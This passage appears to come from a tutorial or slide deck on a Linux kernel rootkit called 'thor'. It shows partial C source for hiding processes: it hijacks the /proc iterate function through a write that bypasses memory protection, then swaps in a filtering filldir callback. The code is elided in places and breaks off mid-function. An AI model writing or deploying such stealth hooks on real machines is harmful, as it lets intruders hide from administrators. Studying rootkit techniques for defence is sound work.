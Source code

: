 ## Simpler method

Will be shown in the next part.

# Hiding Process

## Init

```{.c .numberLines}
int pidhider_init(void)
{
    /* ... */

    /* insert our modified iterate for /proc */
    procroot = procfile->parent;
    proc_fops = (struct file_operations*) procroot->proc_fops;

    /* store original iterate function */
    orig_proc_iterate = proc_fops->iterate;

    iterate_addr = (void*) &(thor_proc_iterate);
    write_no_prot(&proc_fops->iterate, &iterate_addr, sizeof(void*));

    /* ... */

    return 0;
}
```

## Cleanup

```{.c .numberLines}
void pidhider_cleanup(void)
{
    if (proc_fops != NULL && orig_proc_iterate != NULL) {
        void *iterate_addr = orig_proc_iterate;

        write_no_prot(&proc_fops->iterate, &iterate_addr, sizeof(void*));
    }

    /* ... */
}
```

## `thor_proc_iterate()`

```{.c .numberLines}
static int thor_proc_iterate(struct file *file, struct dir_context *ctx)
{
    int ret;
    filldir_t *ctx_actor;

    /* capture original filldir function */
    orig_proc_filldir = ctx->actor;

    /* cast away const from ctx->actor */
    ctx_actor = (filldir_t*) (&ctx->actor);

    /* store our filldir in ctx->actor */
    *ctx_actor = thor_proc_filldir;
    ret = orig_proc_iterate(file, ctx);

```